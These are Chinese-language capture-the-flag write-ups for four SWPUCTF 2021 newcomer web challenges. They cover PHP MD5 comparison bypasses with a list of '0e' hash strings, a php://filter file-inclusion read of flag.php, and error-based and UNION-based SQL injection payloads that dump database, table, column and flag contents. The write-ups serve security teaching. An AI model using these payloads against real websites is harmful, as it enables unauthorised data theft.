# [SWPUCTF 2021 新生赛]easy_md5

**涉及工具：**hackbar

**涉及知识点：**md5绕过

**解题思路：**

1.打开靶机，代码审计：



审计代码：

```php
① highlight_file(__FILE__);
```

将自身的源代码以HTML的形式输出到浏览器中，这样我们可以直接查看代码。

```php
② include 'flag2.php';
```

它包含了一个名为 flag2.php 的文件,这可能是一个包含了敏感信息（比如flag）的文件。

```php
③ if(isset($_GET['name'] && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = $_POST['password'];
```

a.代码通过 $\_GET['name'] 和 $_POST['password'] 获取了两个用户输入的值;

b.$\_GET 用于从URL中获取参数，$_POST 用于从表单中获取参数，这里的 $_GET['name'] 表示从URL中获取名为 "name" 的参数，而 $_POST['password'] 表示从表单提交中获取名为 "password" 的参数;

c.满足条件进入内层（下一层判断）.

**注：**

isset函数：isset() 是一个 PHP 函数，用于检查变量是否已经设置并且非 NULL。

```php
④ if($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
  }
```

如果$name 和 $password 不相等且是它们的MD5哈希值相等时，将输出flag,否则，将输出 "wrong!".(作用在从外到内第二个if判断语句)

```php
⑤ else{
    echo 'wrong!';
}
```

如果判断条件不成立，将会输出 "wrong!".(作用在从外到内第一个if判断语句)


2.审计代码得知：

①需要用get传递一个参数‘name’，post传递一个参数‘password’；

②传入的‘name’不等于‘password’且两个的MD5值相等，即可获得flag.

两种常用题解方法(PHP md5常用两种绕过方式):

a.数组漏洞绕过:



原理：PHP md5函数接收的参数为string（字符串型），如果传入arry（数组型）就无法计算其md5值，但不会报错，导致数组md5值都相等.

b.PHP ‘==’（弱类型比较）漏洞绕过：



原理解释：PHP在进行“==”（弱类型比较）时，会先转换字符串类型，再进行字符串比较，而进行md5后以0e开头的都会被PHP识别为科学计数法，即0e*被视作0的*次方，结果都为0，故我们只需找到md5后为0e*的字符串，常用md5后为0e*的有：

**字符串         对应md5值**

**240610708      0e462097431906509019562988736854**

**QLTHNDT       0e405967825401955372549139051580**

**QNKCDZO      0e830400451993494058024219903391**

**PJNPDWY       0e291529052894702774557631701704**

**NWWKITQ      0e763082070976038347657360817689**

**NOOPCJF       0e818888003657176127862245791911**

**MMHUWUV    0e701732711630150438129209816536**

**MAUXXQC     0e478478466848439040434801845361**

注：以上字符串要记得两个及两个以上，对应md5值不用记.


3.知识总结：

①两种md5常用绕过方法:

a.数组绕过；

b.‘==’弱类型比较绕过。

语法：md5（string，raw）

String：必需，规定计算的字符串

raw：可选，规定十六进制或二进制输出格式

TRUE：16字符二进制格式

FALSE:32字符十六进制数

②PHP两种比较：

a.‘==’弱类型比较：

‘123’==‘123’---->true

‘123’==‘123abc....’---->true

注：只取字符串开头整数部分，特别注意*e*（科学计数法）开头的字符串取科学计数法的数值，如：

‘1e3’==‘1e3’      ---->true

‘1e3ctf’==‘1e3ctf’  ---->true

‘1e3’==‘1e4’      ---->false

‘1e3ctf’==‘1e4ctf’  ---->false

b.‘===’强类型比较：

数据类型和值都要求相等，如：

‘1e3’===‘1e3’        ---->true

‘1e3ctf1’===‘1e3ctf2’  ---->false

③两种PHP传参方法get和post；hackbar的基本使用

④isset函数：isset() 是一个 PHP 函数，用于检查变量是否已经设置并且非 NULL。它的语法如下：

isset(mixed $var, mixed $...)

$var：要检查的变量，可以是一个或多个变量。

返回值：如果所有提供的变量都已设置且非 NULL，则返回 true，否则返回 false。

在给定的代码中，isset(\$__GET['name']) 和 isset($_POST['password']) 用于检查是否已经从 URL 参数中获取了 name，以及是否从 POST 表单中获取了 password。这样可以确保在尝试使用这些变量之前先检查它们是否存在，以避免产生未定义变量的错误。

# [SWPUCTF 2021 新生赛]include

涉及工具：hackbar

涉及知识点：文件包含，PHP伪协议

解题思路：

1.打开靶机：



2.审计代码：

注：该 PHP 脚本接受一个名为 `file` 的 GET 参数，并尝试包含该参数所指定的文件。

①`ini_set("allow_url_include","on");`: 这一行尝试设置 PHP 配置 `allow_url_include` 为 `on`，这意味着允许通过 URL 来包含外部文件，这通常被认为是一个安全风险，因为它可能导致远程代码执行漏洞。

②`header("Content-type: text/html; charset=utf-8");`: 设置响应头部，指示浏览器以 HTML 格式解析响应内容。

③ `error_reporting(0);`: 禁止显示 PHP 错误信息，这是出于安全考虑，以防止泄漏敏感信息。

④`$file=$_GET['file'];`: 从 GET 请求参数中获取名为 `file` 的值，并存储到 `$file` 变量中。

⑤`if(isset($file)){...}else{...}`: 检查是否存在 `file` 参数。如果存在，执行 `if` 代码块，否则执行 `else` 代码块。

⑥`show_source(__FILE__);`: 如果存在 `file` 参数，则显示当前文件的源代码。这可能是为了让攻击者了解服务器上的代码结构。

⑦ `echo 'flag 在flag.php中';`: 输出一条提示信息，提示标志（flag）位于 `flag.php` 文件中。

⑧`include_once($file);`: 尝试包含 `$file` 变量所指定的文件。这是一个潜在的安全风险，因为攻击者可能利用此处的代码包含漏洞来包含恶意文件，并执行其中的恶意代码。

注：这段代码存在严重的安全风险，特别是通过 `allow_url_include` 设置为 `on`，允许通过 URL 包含外部文件，可能导致远程代码执行漏洞。同时，未对用户输入进行充分验证和过滤，可能导致路径遍历攻击（directory traversal）或远程文件包含漏洞（remote file inclusion）。

3.审计得知，`allow_url_include` 设置为 `on`，且目标文件为“flag.php”我们可以利用PHP伪协议来攻击：

①php://filter:/resource=flag.php

获取指定文件源码

②与包含文件结合时，php://filter流会被作为php文件执行，但我们只是为了提取目标文件（此处为flag.php），为了避免执行后看不到文件，对其进行编码，让其不被执行:

php://filter/read=convert.base64-encode/resource=flag.php

因为有很多</br>，所以要滚动一下才能看到



4.base64解码：

①可以直接浏览器搜索“base64在线解码工具”进行解码：



5.知识总结：

①php伪协议：

Php://filter/convert.base64-encode/resource=*.php的使用

②利用hackbar传参问题

③base64编码解码.

# [SWPUCTF 2021 新生赛]error

题目类型：web

涉及考点：SQL注入

## 1. 题目给了一个输入框，随便传点东西






> 通过上面三次传入，我们可以判断闭合类型为单引号闭合

并且通过网页代码发现一端后端数据库代码，说明是报错注入



- 发现没有回显位，但有报错提示，因此尝试报错注入

## 2. extractValue()报错注入

先进行字段判断，使用 " 1' group by 1# " 来判断，依次1，2，3.....

```sql
1' group by 1#
```

出错回显



错误回显


- 说明有三个字段，爆库名

```csharp
1' union select 1,extractvalue(1,concat('~',(select database()))),3#
```


- **`extractvalue()`**: XML 解析函数，故意构造错误实现信息泄露
- **`concat('~',...)`**: 添加非法字符 `~` 触发报错
- **`select database()`**: 获取当前数据库名

 发现test_db，继续进行爆表

```sql
1' union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))),3#
```


- **`information_schema.tables`**: 系统表存储所有表信息
- **`table_schema=database()`**: 限定当前数据库
- **`group_concat(table_name)`**: 合并所有表名

出现test_tb,users表名，在test_tb表中继续进行爆字段名

```sql
1' union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='test_tb'))),3#
```


- **`information_schema.columns`**: 系统表存储字段信息
- **`table_name='test_tb'`**: 指定目标表

 发现flag，查看字段内容

```sql
1' and 1=extractvalue(1,concat('~',(select group_concat(id,'~',flag) from test_tb)))#
```


- **`group_concat(id,'~',flag)`**: 合并所有记录的 id 和 flag

只有一半，是因为回显不够吗，那我们自己设定一个回显个数

```sql
1' and 1=extractvalue(1,concat('~',(select substring(group_concat(id,'~',flag),31,32) from test_tb)))#
```

因为我们第一次爆出的字段内容为30个，所以我们从第31个字段继续显示


- **`substring(...,31,32)`**: 从第 31 字符开始取 32 字符

 两段flag进行拼接就得到flag啦

# [SWPUCTF 2021 新生赛]easy_sql

## 前置知识

1. 数据库中的字段就是指表的一列（这个一开始真的好多sql注入题目的wp都有这个说法，但是我一开始又懒得看数据库原理的书或者那种几十个小时的视频，所以是真不理解是什么意思，导致很大程度上降低了我做web的兴趣）
2. 数据库整体框架的一个顺序就是库-表-列
3. 目前从解题思路来看，第一步就是先通过传参来判断sql注入类型，数字型注入、字符型注入、搜索型注入：

- 数字型注入：正常输入即可，不用考虑闭合情况
- 字符型注入：一般要使用单引号来闭合
- 搜索型注入（暂时还没遇到，遇到再补充）

为什么要进行一个类型的判断，就是sql语句貌似就是前面如果出错了的话，会执行后面的语句，也就是达到了插入恶意SQL代码的目的。

​    4.SQL查询语句：

- SELECT <目标列名序列> -- 需要哪些列
   FROM <表名> [JOIN <表名> ON <连接条件>] -- 来自哪些表
   [WHERE <行选择条件>] -- 根据什么条件
   [GROUP BY <分组依据列>]
   [HAVING <组选择条件>]
   [ORDER BY <排列依据列>]
- `database()`函数的返回值（当前数据库的名称）
- `GROUP_CONCAT` 是一个 MySQL 特有的聚合函数，它可以将多行的值连接成一个字符串
- `information_schema.tables` 是一个特殊的系统表，它包含了关于数据库中所有表的信息
- --+:在SQL中，两个短横线（`--`）是一个注释的开始。这意味着在`--`之后的所有内容都将被数据库忽略。`+` 在这里可能是为了“欺骗”某些应用程序或框架，这些应用程序或框架可能会错误地解析URL查询字符串中的`+`字符为空格（虽然在这种情况下，`+`字符在注释之后，所以实际上它没有任何作用）

赋值1，有回显，说明不是数字型


加上单引号报错，是字符型


判断字段数





可知是3，接着判断回显，

```sql
?wllm=-1' union select 1,2,3--+
```

（`UNION SELECT`是SQL注入攻击中最常用的技术之一，它允许攻击者将恶意查询结果与原查询结果合并返回。）


只要把想要回显的内容放在后面两个参数的位置就行。

注意，这里需要把wllm设置为不为1的数（就是让他查不到数据就行，因为wllm=1查得到数据），不然它只会输出wllm=1查询到的数据。然后查看数据库名称

```sql
/?wllm=2'union select 1,2,database--+
```


得到数据库名称为test_db, 得到数据库名称就可以按顺序数据库-表-列来找flag了

这里就要用到前置知识里面的group_concat函数和information_schema.tables，就是查看‘test_db’数据库下有哪些表。

```sql
/?wllm=2'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='test_db'--+
```


发现有两张表，我们查看一下test_tb表中含有哪些列

```sql
/?wllm=2'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='test_tb'--+
```


正常回显，有id和flag两列，那这个flag里的内容应该就是我们最终所需要的答案了。我们通过select查询语句让它把flag的内容回显。

```sql
/?wllm=2'union select 1,2,flag from test_tb--+
```


大体框架：库-表-列
